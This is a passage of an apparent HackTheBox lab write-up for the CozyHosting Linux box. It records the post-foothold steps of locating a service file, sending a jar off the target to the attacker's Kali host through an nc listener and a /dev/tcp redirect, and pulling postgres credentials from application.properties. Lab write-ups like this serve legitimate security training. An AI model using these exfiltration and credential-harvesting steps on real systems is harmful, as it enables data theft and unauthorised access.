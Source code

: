 ![[HackTheBox/Linux/attachments/Pasted image 20250508215723.png]]

#### Method 2
```
find /etc/ -name *.service
```

![[HackTheBox/Linux/attachments/Pasted image 20250508215913.png]]

We see the cozyhosting service 
![[HackTheBox/Linux/attachments/Pasted image 20250508215948.png]]

Checking out the service file 
![[HackTheBox/Linux/attachments/Pasted image 20250508220024.png]]

Extract the `cloudhosting-0.0.1.jar`

### Move the jar to kali host to view it more easily

Set up nc listener 
```
nc -lvnp 9001 > cozyhosting.jar
```

Cat the jar and redirect it to kali 

```
cat cloudhosting-0.0.1.jar > /dev/tcp/10.10.14.8/9001
```

![[HackTheBox/Linux/attachments/Pasted image 20250508220638.png]]

Extract the jar file 

```
7z x cozyhosting.jar
```

![[HackTheBox/Linux/attachments/Pasted image 20250508220735.png]]

### Enumerate the files from the jar

```
find . -name *.properties
```

![[HackTheBox/Linux/attachments/Pasted image 20250508220833.png]]

Let's look at the application.properties
![[HackTheBox/Linux/attachments/Pasted image 20250508220909.png]]
- WOOHOO postgres username and password

Try switching to the postgres user 

```
su - postgres
```
